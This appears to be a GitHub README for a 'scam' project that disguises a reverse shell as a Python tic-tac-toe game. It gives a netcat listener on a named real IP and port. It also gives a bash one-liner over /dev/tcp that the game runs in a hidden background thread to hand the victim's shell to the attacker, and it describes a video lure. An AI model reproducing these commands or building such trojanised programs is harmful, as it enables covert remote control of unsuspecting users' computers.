 # Tic tac toe game scam

Scam attack that uses Tic tac toe game to catch victims

## Getting started

- Clone the [repository](https://github.com/hirwablessing/python-game-scam)
- navigate to directory `python-game-scam`
- run `python3 ticatactoe.py` (victim is caught 😋)

### How the scam works

- The hacker opens up a vpn port at `82.165.97.169` for the victim to connect via port 2004

```bash
   $ nc -lnvp 2004 -s 82.165.97.169
```

The victim downloads the motivation videos expecting to watch all the motivation videos.

When the victim opens up the game, a thread is created the in the background to run a bash script that connects to the server hence the victim is hacked.

The script to run in background is

```bash
$ /bin/bash -i > /dev/tcp/82.165.97.169/2004 0<&1 2>&1
```

### Hacker

hirwablessing7@gmail.com A.K.A blessingartcreator
